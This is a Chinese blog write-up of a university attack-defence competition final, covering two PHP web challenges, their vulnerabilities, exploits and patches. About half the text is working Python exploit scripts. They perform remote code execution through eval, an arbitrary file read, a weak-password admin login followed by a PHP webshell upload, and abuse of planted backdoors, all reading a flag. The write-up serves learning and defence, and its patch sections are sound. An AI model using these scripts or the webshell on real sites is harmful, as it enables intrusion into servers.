<!--more--> 
# 0x00 前言
第二届广东大学生网络安全攻防大赛决赛，比赛时长为4小时。线下总决赛为DAWD（Data-Con-AWD）攻防模式，参赛队伍在网络空间互相进行攻击和防守，挖掘网络服务漏洞并攻击对手服务来得分，修补自身服务漏洞进行防御来避免丢分。攻防模式可以实时通过得分反映出比赛情况，最终也以得分直接分出胜负，是一种竞争激烈，具有很强观赏性和高度透明性的网络安全赛制。在这种赛制中，不仅仅是比参赛队员的智力和技术，同时也比团队之间的分工配合与合作。上一届决赛是AWD模式，可以上机上WAF去分析流量，写脚本批量攻击拿flag。上次还出现过删站操作，简直群魔乱舞，这次还准备上长亭开源WAF来着，可惜是DAWD，但这种赛制比下来确实还不错，对选手进行了保障。
# 0x01 题目
比赛题目分为PWN和WEB两个方面，分别有两道题目，一道简单一道难。
## minicms
这一题相对简单，主要是代码审计、编写攻击脚本、修复编写。比赛一开始写出EXP的先后顺序基本上就确定了排名位置。
目录结构：
```python
│  index.php
│
├─mc-admin
│      conf.php
│      editor.php
│      foot.php
│      head.php
│      index.php
│      page-edit.php
│      page.php
│      post-edit.php
│      post.php
│      style.css
│
└─mc-files
    │  markdown.php
    │  mc-conf.php
    │  mc-core.php
    │  mc-rss.php
    │  mc-tags.php
    │
    ├─pages
    │  ├─data
    │  └─index
    │          delete.php
    │          draft.php
    │          publish.php
    │
    ├─posts
    │  ├─data
    │  │      tucvj0.dat
    │  │
    │  └─index
    │          delete.php
    │          draft.php
    │          publish.php
    │
    └─theme
            index.php
            style.css
```
### 题目漏洞挖掘
审计工具结果：

我们只需要关注可以Getshell和读取文件的地方。
#### 漏洞点1：`minicms\index.php`
首页存在一句话代码执行。

#### 漏洞点2：`minicms\mc-files\mc-core.php`
文件下载功能存在任意文件下载漏洞。

### EXP编写
#### EXP1：首页代码执行
```python
import sys
import requests


try:
    HOST = sys.argv[1]
    PORT = sys.argv[2]
except:
    pass


header = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0"
}
url = f"http://{HOST}:{PORT}"
data = {"1": "system('cat /flag');"}


def exp_1():
    ans = requests.post(url=url, headers=header, data=data)
    print(ans.text)


exp_1()
```
#### EXP2：任意文件读取
```python
import sys
import requests


try:
    HOST = sys.argv[1]
    PORT = sys.argv[2]
except:
    pass


header = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0"
}
url = f"http://{HOST}:{PORT}"

def exp_2(poc="/mc-files/mc-core.php?file=/flag"):
    ans = requests.post(url=url+poc, headers=header, data=data)
    print(ans.text)

exp_2()
```
### PATCH编写
#### index.php 修复
直接删除`@eval($_POST[1]);`代码即可。

#### mc-core.php 修复

1. 增加了对 $file 的安全验证，确保 $file 不为空、是字符串类型、不包含 /（防止通过路径遍历攻击）、并且存在于文件系统中。
2. 使用 realpath 函数获取 $file 的绝对路径，避免可能存在的路径遍历攻击。
3. 检查 $file 的路径是否是 __DIR__ 的子路径，以确保下载的文件在当前脚本所在的目录下，防止可能存在的路径遍历攻击。


## ezphp
相对上一道题目，这一道题目相对来说难一些，但其实也很简单。主要的漏洞是文件上传后获取网站源码并进行代码审计。在这一题中漏洞点比较多，后门也比较多，在这一题中我们拿到了一血。
不过web题目，被对手流量分析后其实很快就能相同利用，相对的，我们也通过流量分析拿到了其他的漏洞点。最后呈现的是4个EXP。

### 题目漏洞挖掘
代码审计工具记录：

D盾查杀情况：

河马查杀情况：

#### 漏洞点1：后台木马文件上传
当时直接找到后台使用弱口令`admin/000000`进入后台了。一开始我们尝试寻找文件下载、SQL注入、命令/代码执行漏洞，无果。文件上传的地方都是白名单。

后面在系统设置中找到了上传配置，这里直接添加`php`类型，并且把上传文件大小修改成`5000`。

上传PHP木马后将站点源码打包下载到本地进行分析。修复时尝试修改管理员密码还发现无法修改。

从源码上可以看到是设置覆盖默认的。文件：`app\admin\controller\Upload.php`

#### 漏洞点2：代码执行漏洞
`app\index\controller\Form.php`该文件存在 eval 代码执行函数。

#### 漏洞点3：后门
`public\uploads\admin\201910\this_is_big.php`这个文件结构简单，是一个后门文件。

1. $a = substr_replace("xxser","syste",-3); 将字符串 "xxser" 中的最后三个字符 "ser" 替换为 "syste"，结果是 $a = "xxsystem".
2. $aa = array('',$a); 创建一个数组，包含两个元素 '' 和 $a.
3. $b = $aa[1].chr('109'); 将数组中第二个元素 $a 和 ASCII 码为 109 的字符 m 拼接在一起，结果是 $b = "xxsystemm".
4. $fun=preg_replace("/xx/","",$b); 将字符串 $b 中的所有 xx 替换为空字符串 ""，结果是 $fun = "systemm".
5. $cc = substr_replace("",$fun,0); 将空字符串 "" 中的所有字符都替换为 $fun，结果是 $cc = "systemm".
6. $cc($_POST['x']); 执行 $cc 中存储的函数，将用户提交的数据 $_POST['x'] 作为参数传递给该函数。


#### 漏洞点4：生成Shell
`app\index\controller\index.php` 这个文件里有个 shell 函数，它会生成后门文件。

这里直接用360杀毒都能扫描出来，当然也可以使用D盾、河马WebShell效果差不多。

### EXP编写
#### EXP1：代码执行漏洞
```python
import sys
import requests

try:
    HOST = sys.argv[1]
    PORT = sys.argv[2]
except:
    pass

url = f"http://{HOST}:{PORT}/index/form/index"
headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-User': '?1',
    'Content-Type': 'application/x-www-form-urlencoded'
}

data = {
    'form_id': "system('cat /flag');"
}

response = requests.post(url, headers=headers, data=data)
print(response.text.split('\n')[0])
```
#### EXP2：后台木马文件上传
```python
import sys
import requests

try:
    HOST = sys.argv[1]
    PORT = sys.argv[2]
except:
    pass


uri = f"http://{HOST}:{PORT}"
def Login():

    url = uri+'/admin/Login/index.html?jstime=1681524228621'
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://127.0.0.1:34001',
        'Referer': 'http://127.0.0.1:34001/admin/Login/index.html',
        'Connection': 'close',
        'Content-Length': '42',
        'Sec-Fetch-Dest': 'empty',
        'Sec-Fetch-Mode': 'cors',
        'Sec-Fetch-Site': 'same-origin'
    }

    data = {
    'username': 'admin',
    'password': '000000',
    'verify': 'aaaa'
    }

    response = requests.post(url, headers=headers, data=data)
    cookie = response.cookies.get_dict();
    return cookie

def move(cookies):
    url = uri+'/admin/Config/index?jstime=1681524476984'
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded;charset=utf-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://127.0.0.1:34001',
        'Referer': 'http://127.0.0.1:34001/admin/Config',
        'Connection': 'close',
        'Content-Length': '677'
    }

    data = {
        'site_status': '1',
        'mobil_status': '2',
        'site_title': 'xhcms后台系统',
        'site_logo': '/uploads/admin/201910/5db6890644255.jpg',
        'keyword': '停车场,高铁,飞机场,测试',
        'description': '停车管理系统',
        'file_size': '5000',
        'cnzz': '',
        'sub_title': '武汉网站建设',
        'file_type': 'gif,png,jpg,jpeg,doc,docx,xls,xlsx,csv,pdf,rar,zip,txt,mp4,flv,php,php5',
        'default_themes': 'index',
        'off_msg': '站点维护中',
        'mobil_domain': '',
        'mobil_themes': ''
    }

    response = requests.post(url, headers=headers, cookies=cookies, data=data)


def upload(cookies):
    url = uri+'/admin/Upload/uploadImages.html'
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0',
        'Accept': '*/*',
        'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
        'Accept-Encoding': 'gzip, deflate',
        'Origin': 'http://127.0.0.1:34001',
        'Connection': 'close',
        'Referer': 'http://127.0.0.1:34001/admin/Config',
        'Sec-Fetch-Dest': 'empty',
        'Sec-Fetch-Mode': 'cors',
        'Sec-Fetch-Site': 'same-origin'
    }
    data={
        "id":"WU_FILE_0",
        "name":"1.jpg",
        "type":"image/jpeg",
        "lastModifiedDate":"2023/4/15 09:33:23",
        "size":"849"
    }
    files={'file': ("1.php",open('q.php', 'rb'),"image/jpeg")}

    
    response = requests.post(url, headers=headers, cookies=cookies, data=data, files=files)
    j_data = response.json()
    return j_data["data"]

def gogo(path):
    url = uri+path

    payload = "cmd=system('cat /flag');"
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/x-www-form-urlencoded",
        "Origin": "http://127.0.0.1:34001",
        "Connection": "close",
        "Referer": "http://127.0.0.1:34001/mc-admin/page-edit.php",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1"
    }

    response = requests.request("POST", url, headers=headers, data=payload)

    print(response.text)

try:
    c = Login()
    move(c)
    p = upload(c)
    gogo(p)
except:
    pass
```
这里的`q.php`内容为`<?php eval($_POST["cmd"]);?>`
#### EXP3：后门利用
```python
import sys
import requests

try:
    HOST = sys.argv[1]
    PORT = sys.argv[2]
except:
    pass

url = f"http://{HOST}:{PORT}/uploads/admin/201910/this_is_big.php"
payload = {'x': 'cat /flag'}
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
response = requests.post(url, headers=headers, data=payload)
print(response.text)
```
#### EXP4：生成后门利用
```python
import sys
import requests

try:
    HOST = sys.argv[1]
    PORT = sys.argv[2]
except:
    pass

uri = f"http://{HOST}:{PORT}"
def get1():
  url = uri+'/index/index/shell'
  headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Cookie': 'PHPSESSID=99b2ca34904520b4085d5a9ada60fd6b',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-User': '?1',
    'Content-Type': 'application/x-www-form-urlencoded'
  }
  try:
    response = requests.get(url,headers=headers,timeout=1)
  except:
    pass

def gogo():
  url = uri+'/uploads/.bk.php'
  headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Cookie': 'PHPSESSID=99b2ca34904520b4085d5a9ada60fd6b',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-User': '?1',
    'Content-Type': 'application/x-www-form-urlencoded'
  }

  data = {
    'cmd': "system('cat /flag');"
  }

  response = requests.post(url, headers=headers, data=data)

  print(response.text)

get1()
gogo()
```
### PATCH编写
#### Upload.php 修复
我直接写死了`file_type`不允许配置文件覆盖。

#### Form.php 修复
这里输入的是模型ID，所以使用正则匹配 $form_id 变量中是否包含除了字母、数字和下划线以外的其他字符，如果有则返回 true，否则返回 false。
也就是说如果 $form_id 中包含除了字母、数字和下划线以外的任何字符，就报错。

#### Index.php 修复
这里我直接把密码修改成自己都猜不到的了，快速修复。

#### this_is_big.php 修复
我原本想直接使用`echo > this_is_big.php`制空该文件的，但后面被扣了150分很难受。
这里我使用正则匹配由大小写字母和数字组成的字符串，并且该字符串长度大于等于 1。如果字符串 $x 符合这个正则表达式，则返回 true，否则返回 false。
如果 $x 等于 "cat /flag"，则输入的内容不符合正则表达式 /^[a-zA-Z0-9]+$/，因为字符串中包含空格和斜杠字符，不仅仅是大小写字母和数字。

# 0x03 结语
第一次参加这个比赛，也是第一次了解到这种攻防比赛模式。平时都是“安服仔”渗透测试和安全运维接触的多一些，然而在这场比赛中的CTFer比较多，他们比赛经验丰富。这次在团队中我主要负责修复漏洞和上传EXP、PATCH。挖洞和流量分析就交给队友了，他们安服经验也很丰富，我们有很高效的配合模式，可惜比赛经验上略胜一筹，有些遗憾，但尽力效果过也很不错。攻防是永恒的主题，希望这种模式的攻防比赛能够更多一些。
